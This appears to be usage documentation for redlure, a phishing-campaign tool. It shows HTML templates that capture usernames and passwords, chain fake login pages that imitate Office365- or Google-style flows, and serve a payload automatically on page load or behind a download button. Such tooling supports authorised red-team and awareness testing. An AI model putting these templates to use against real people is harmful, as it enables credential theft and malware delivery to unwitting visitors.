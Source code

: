 # Pages
The pages component is where you can store HTML templates to serve with your phishing campaigns. redlure lets you chain up to 4 templates together in 1 campaign (through the use of buttons or your mechanism of choice).

You can attempt to clone an existing webpage or build your own template in the [CodeMirror](https://codemirror.net/) editor.
![](../gitbook/images/newpage.png)

# IMPORTANT
Templates have three requirements to function the way you want, assuming you are collecting form data:
1. The HTML `form` tag must have the `method` attribute set to `POST`
2. The HTML `form` tag must have the `action` attribute set to `{{ next_url }}`
3. `Input` fields you want to capture must have the `name` attribute set.
4. The HTML form must include a button that submits the form (i.e. `input` tag with `type="submit"`)

Example:
```html
<form action="{{ next_url }}" method="POST">
    <input class="input-box" name="username" type="text">
    <input class="input-box" name="password" type="password"> 
    <input class="submit" type="submit" value="Sign In">
</form>
```

## Chaining Templates
The `{{ next_url }}` variable is used within page templates to direct visitors to the next phishing template in sequence. You'll likely use this most with form submissions, like the above, but two other quick examples are standalone buttons or a rudimentary redirector.

```html
<html>
    <body>
        Loading...
        <meta http-equiv="refresh" content="1; url={{ next_url }}">
    </body>
</html>
```

```html
<form action="{{ next_url }}" method="GET">
    <button class="submit" type="submit">Click to Enter!</button>
</form>
```

# Variable (Username/Email) Passthrough
To mimic multi-page logins that display your username on the password form page (think Office365, Google), you can use to following variables within your HTML. These __*cannot*__ be used on your first landing page in a sequence; a form with an input field named one of these values must be submitted on the prior page.
- {%raw%}`{{ loginfmt }}`{%endraw%} - Will display value from the prior page's form input where `name="loginfmt"`
- {%raw%}`{{ email }}`{%endraw%} - Will display value from the prior page's form input where `name="email"`
- {%raw%}`{{ username }}`{%endraw%} - Will display value from the prior page's form input where `name="username"`

# Serving a payload
When you configure a campaign you can optionally select a payload you've uploaded to your server/worker and set a URL path for it to be served at. A link to the payload route can be sent directly via email or it can be referenced as a variable in your HTML page template, in 1 of 2 ways:
1. Automatically download file when your page is browsed to
2. Download the file when a button is pressed or another action is taken

## Auto Download on Page Visit
To drop a payload when a visitor hits your redlure page, add the `{{ serve_payload }}` to your HTML page template. Example:
```html
<!DOCTYPE html>
<html>
<head></head>
<body>

     <!-- SNIPPED HTML CONTENT -->

</body>

{{ serve_payload }}

</html>
```
 When your page is rendered the variable with be replaced with:
 `<meta http-equiv="refresh" content="0; url=http[s]://yourdomain.com/custom/payload/path?id=[visitor_id]">`
This could be done by other means, such as directly inserting the `<meta>` tag in the page template, but I've found this will usually throw WYSISYG editors for a loop when previewing your page.
## Download on Action
If you want to place your payload download behind a click using a button or hyperlink, you can use the `{{ payload_url }}` within your page template. Example:
```html
<p><a href="{{ payload_url }}" style="cursor: pointer;">Click here</a> if the download does not begin.</p>

<!-- OR -->

<form action="{{ payload_url }}" method="GET">
    <button class="submit" type="submit">Download</button>
</form>
```




